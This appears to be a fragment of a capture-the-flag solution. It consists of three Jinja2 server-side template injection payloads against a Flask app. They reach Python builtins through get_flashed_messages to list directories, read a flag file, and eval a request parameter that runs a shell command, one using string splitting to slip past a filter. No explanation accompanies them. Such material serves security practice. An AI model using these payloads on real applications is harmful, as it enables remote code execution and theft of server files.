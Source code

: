 {{ get_flashed_messages.__globals__.__builtins__.__import__("os").listdir() }}
{{ get_flashed_messages.__globals__.__builtins__.open("flag-61150e68b7.txt").read() }}
name={{get_flashed_messages['__built''ins__'].eval(request.values['a'])}}&a=__import__('os').popen('cat flag.txt').read()